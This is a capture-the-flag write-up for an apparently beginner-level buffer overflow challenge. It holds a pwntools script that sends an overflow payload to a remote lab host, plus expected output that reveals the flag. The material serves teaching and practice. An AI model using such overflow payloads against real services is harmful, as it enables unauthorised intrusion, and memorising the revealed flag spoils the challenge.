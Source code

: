 # Challenge: Getting Started (PWN)

## Challenge Overview

**Name:** Getting Started
**Category:** PWN
**Difficulty:** Very Easy

### Description:

Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

---

# Challenge Progress: Getting Started (PWN)

## Exploit Steps

### Step 1: Install pwntools
Install `pwntools` on your WSL environment:
```bash
pip3 install pwntools
```

### Step 2: Create Exploit Script
Create a Python script named `wrapper.py` and paste the following code:
```python
#!/usr/bin/python3.8

from pwn import *
from time import sleep

IP = '94.237.56.47'
PORT = 58911

r = remote(IP, PORT)

payload  = b'A' * 32           
payload += b'B' * 8           
payload += p64(0x0badf00d)     

r.sendline(payload)
sleep(1)
response = r.recvall()

if b'HTB' in response:
    success(f'Flag --> {response.strip().decode()}')
else:
    print("Flag not found.")
```

### Step 3: Run the Exploit
Execute the exploit with:
```bash
python3 wrapper.py
```

### Expected Output
If successful, the script will display the flag:
```
[+] Opening connection to 94.237.56.47 on port 58911: Done
[+] Flag --> HTB{b0f_tut0r14l5_4r3_g00d}
```

May god with us~